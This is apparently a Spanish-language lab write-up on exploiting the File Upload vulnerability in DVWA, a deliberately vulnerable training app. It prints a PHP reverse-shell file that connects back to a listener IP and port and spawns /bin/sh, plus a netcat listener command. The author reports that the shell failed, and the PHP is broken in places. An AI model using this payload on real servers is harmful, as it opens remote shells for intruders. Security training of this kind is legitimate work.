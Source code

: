 # File Upload

La vulnerabilidad **File Upload** se produce cuando una aplicación web incorpora archivos externos en sus operaciones basadas en la entrada proporcionada por el usuario sin validar adecuadamente la entrada. \
Esto puede permitir a los atacantes manipular el contenido de los archivos incluidos o incluso ejecutar código malicioso.
En esta sección se lleva a cabo un ejemplo de ataque utilizando esta vulnerabilidad.

## Level: Low
```
<?php

$ip=192.168.5.137; #IP del servidor DVWA
$port=9001; #Puerto de escucha
$sock=fsockopen($ip, $port);
exec("bin/sh -i <&3 >&3 2>&3");

?>
```

Se carga este archivo desde el cargador del servidor.
![Carga archivo](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/file_upload/asset/carga_archivo.png)

Ahora se crea un listener con **netcat**, que será donde se tendra acceso al servidor atacado (DVWA).

```
nc -lvnp 9001
```

Luego, desde la barra de direcciones se puede ejecutar el archivo malicioso.

![Ejecuta archivo](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/file_upload/asset/ejecuta_fichero.png)

El Archivo se ha cargado y ejecutado pero no ha funcionado el reverse shell. ???


